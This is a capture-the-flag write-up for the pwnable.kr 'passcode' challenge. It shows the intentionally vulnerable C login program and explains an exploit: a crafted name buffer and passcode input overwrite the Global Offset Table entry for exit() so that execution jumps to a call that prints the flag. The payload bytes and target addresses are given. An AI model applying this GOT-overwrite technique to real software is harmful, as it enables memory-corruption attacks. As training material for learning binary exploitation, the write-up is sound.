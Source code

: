 # pwnable.kr -- Toddler's Bottle -- passcode

## 1. Challenge
  > Mommy told me to make a passcode based login system.  
  > My initial C code was compiled without any error!  
  > Well, there was some compiler warning, but who cares about that?  
  >   
  > ssh passcode@pwnable.kr -p2222 (pw:guest)  

## 2. Solution
  * Connect target via ssh and see source code:
    ```c
    #include <stdio.h>
    #include <stdlib.h>

    void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
    }

    void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
    }

    int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
    }

    ```

  * Obviously, function `scanf()` is called incorrectly.

  * So we must make sure that `passcode1` and `passcode2` should be a valid address or the program would crash. Or we do not input number, so addresses that are equal to `passcode1` or `passcode2` would not be accessed to.

  * But what does decide `passcode1` and `passcode2`? Well, it's `char name[100]` in function `welcome()`. Let's see the stack layout of function `welcome()` and `login()`:

    ![stack_layout](stack_layout.png)

  * We can find we could affect `passcode1` but could not affect `passcode2`. Because in function `welcome()` `scanf()` only accepts 100 characters.

  * However, there still one way out. Actually, when program access to a invalid address, it would raise an exception and then calls `exit()` to terminate.

  * So, we can change the offset of function `exit()` at Global Offset Table(GOT) to 0x080485e3.
    ```asm
    @0x080485e3
    mov     dword ptr [esp], offset command ; "/bin/cat flag"
    call    _system
    ```

  * so you can build exploit buffer:
    ```python
    exp_buf = b'a' * 96 + b'\x18\xa0\x04\x08'
    ```
    When asked to type your name, just send it.

  * And when asked to type `passcode1`, send:
    ```python
    payload = str(0x080485e3)
    ```
    to change the offset of function `exit()` to shell entry(0x080485e3).

  * Finally, you can get the flag.

